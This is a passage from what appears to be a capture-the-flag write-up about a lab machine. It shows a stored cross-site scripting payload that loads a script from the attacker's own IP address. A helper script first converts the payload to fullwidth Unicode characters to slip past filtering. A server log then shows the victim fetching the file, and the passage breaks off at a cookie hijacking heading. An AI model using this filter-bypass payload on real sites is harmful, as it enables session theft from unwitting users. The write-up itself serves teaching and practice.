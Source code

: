 We could also do it manually. In our case, we run the following command and copy the result to use as our username upon registration.

```bash
./transformar.sh '<script src="http://[IP-atacante]/script.js"></script>'
```

In my case:

```bash
$ ./tranformar.sh '<script src="http://192.168.1.181/script.js"></script>'
＜script src=“http://192.168.1.181/script.js“＞＜/script＞
```

![alt text](../../assets/images/token-of-hate/image-6.png)

Meanwhile, we create a python web server listening on port 80, and soon enough, we receive a request.

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.117 - - [21/Mar/2025 23:41:21] code 404, message File not found
192.168.1.117 - - [21/Mar/2025 23:41:21] "GET /script.js HTTP/1.1" 404 -
```

### Cookie Hijacking
